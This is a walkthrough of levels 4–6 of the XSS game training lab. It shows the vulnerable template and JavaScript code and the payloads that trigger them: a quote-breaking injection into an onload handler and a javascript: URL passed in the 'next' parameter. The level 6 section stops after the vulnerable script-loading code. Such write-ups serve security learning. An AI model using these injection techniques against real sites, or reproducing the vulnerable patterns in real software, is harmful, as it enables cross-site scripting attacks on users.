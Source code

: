 ### Level 4

- Vulnerable code: this web app will take the user input and pass it to `startTimer()`. `startTimer()` will directly use this input.  

```
<img src="/static/loading.gif" onload="startTimer('{{ timer }}');" />

function startTimer(seconds) {
   seconds = parseInt(seconds) || 3;
... }
```

- How to trigger the vulnerability. Input the following in the text field. `3')` will finish the `startTimer()` function. Then, it will inject an alert function and get executed.

```
3'); alert('
```

### Level 5

- Vulnerable code: this web app will take the user get request and find out the parameter of `next`. Then, in HTML it will use it as a hyperlink directly

```
self.render_template('confirm.html', {'next': self.request.get('next', 'welcome')})

<a href="{{ next }}">Next >></a>
```

- How to trigger the vulnerability: navigate to this URL and click on `Next >>`. Here we make the parameter of `next` become `javascript:alert()`, so the hyperlink `href="javascript:alert()"` will make browser to run `alert()` as javascript code.
```
https://xss-game.appspot.com/level5/frame/signup?next=javascript:alert();
```


### Level 6

- Vulnerable code: this web app will take the section that follows `#` of the URL in `getGadgetName()`. Then attempt to load this URL as javascript.

```
includeGadget(getGadgetName());

function getGadgetName() {
  return window.location.hash.substr(1) || "/static/gadget.js";
}

// In includeGadget
var scriptEl = document.createElement('script');
...
scriptEl.src = url;
```
